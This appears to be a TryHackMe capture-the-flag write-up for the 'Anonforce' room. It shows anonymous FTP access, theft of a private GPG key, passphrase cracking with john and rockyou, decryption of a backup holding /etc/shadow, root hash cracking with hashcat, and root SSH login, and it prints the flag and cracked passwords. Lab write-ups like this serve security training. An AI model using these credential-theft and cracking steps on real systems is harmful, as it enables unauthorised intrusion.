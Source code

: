 ```yaml
---
title: Anonforce
description: 'Anonymous FTP access and cracking a private GPG key file'
pubDate: 2024-08-27
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/eef338293d4a928420f1603870699e75.jpeg'
---
```


There is anonymous FTP access, this way we can get the user flag.

```bash
ftp 10.10.217.185
Connected to 10.10.217.185.
220 (vsFTPd 3.0.3)
Name (10.10.217.185:ex-it): anonymous
331 Please specify the password.
Password:
230 Login successful.
...[snip]...
ftp> less /home/melodias/user.txt
606083fd33beb1284fc51f411a706af8
```

## ROOT

In the root there is a directory that stands out (`notread`).

There are 2 files in there, lets grab them:

```bash
ftp> cd notread
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||56167|)
150 Here comes the directory listing.
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 .
drwxr-xr-x   23 0        0            4096 Aug 11  2019 ..
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
...[snip]...
get backup.pgp
...[snip]...
get private.asc
```

The `private.asc` file seems to be a private GPG key file.
We can brute force it with John:


Create the hash file:
```bash
gpg2john private.asc > private.hash
```

Brute force the hash:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt private.hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)
```

Now lets try to read the `backup.pgp`.

Import the private key, when asked enter the password `xbox360`:
```bash
gpg --import private.asc
gpg: key B92CD1F280AD82C2: public key "anonforce <melodias@anonforce.nsa>" imported
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

Decrypt the file, when asked enter the password `xbox360`:
```bash
gpg --output backup.txt --decrypt backup.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
```

The `backup.txt` file seems to contain the `/etc/shadow` file with the root hash.

Lets brute force the root hash with `hashcat`:
```bash
hashcat '$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0' /usr/share/wordlists/rockyou.txt
...[snip]...
$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
...[snip]...
```

Now lets SSH into the target machine:
```bash
ssh root@10.10.217.185 # <-- hikari
```
